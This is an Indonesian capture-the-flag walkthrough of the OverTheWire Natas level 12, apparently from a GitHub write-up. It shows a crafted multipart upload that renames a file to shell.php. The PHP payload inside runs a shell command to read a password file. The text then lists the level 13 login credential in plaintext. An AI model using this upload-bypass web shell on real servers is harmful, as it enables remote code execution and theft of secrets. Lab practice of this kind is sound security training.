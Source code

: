 Upload file

![Image](img/natas12/step2.jpg)

```
hq8j7gj555.jpg (NAMA FILE)
-----------------------------217261477111538
Content-Disposition: form-data; name="uploadedfile"; filename="shell.php"
Content-Type: application/octet-stream
 
 
(ISI FILE)
<?php
$pass = `cat /etc/natas_webpass/natas13`;
echo $pass;
?>
```

Mari kita ganti lagi nama filenya menjadi shell.php dan upload

Terdapat sebuah link menuju file kita tadi, saat diakses maka command cat akan ter execute dan password untuk level selanjutnya didapatkan


# Level 13
[http://natas13.natas.labs.overthewire.org/](http://natas13.natas.labs.overthewire.org/)

natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
